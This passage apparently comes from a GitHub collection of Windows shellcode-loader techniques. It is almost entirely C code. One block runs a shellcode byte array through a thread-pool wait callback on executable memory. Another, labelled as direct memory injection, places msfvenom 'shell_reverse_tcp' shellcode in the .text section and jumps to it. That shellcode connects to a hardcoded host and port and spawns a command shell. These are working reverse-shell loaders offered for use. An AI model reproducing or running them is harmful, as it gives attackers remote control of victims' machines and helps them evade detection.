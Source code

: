 ```c
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";
int main()
{
	HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);
	LPVOID shellcodeAddress = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	RtlMoveMemory(shellcodeAddress, shellcode, sizeof(shellcode));
	PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK) shellcodeAddress, NULL, NULL);
	SetThreadpoolWait(threadPoolWait, event, NULL);
	WaitForSingleObject(event, INFINITE);
	return 0;
}
```

- **`Direct Memory ShellCode Injection - C[No Windows APIs]`**

```c
#pragma section(".text")	
//Direct Ram Access With C
// msvenom -p windows/shell_reverse_tcp lhost=X lport=Y -f c
//x86 Arch Only
__declspec(allocate(".text")) char goodcode[] ="\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52""\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48""\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9""\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41""\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48""\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01""\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48""\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0""\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c""\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0""\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04""\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59""\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48""\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33""\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00""\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54""\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c""\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff""\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2""\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48""\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99""\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63""\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57""\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44""\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6""\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff""\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5""\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff""\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48""\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13""\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";
    int main(){   
        (*(void(*)())(&goodcode))();
        
    }
```
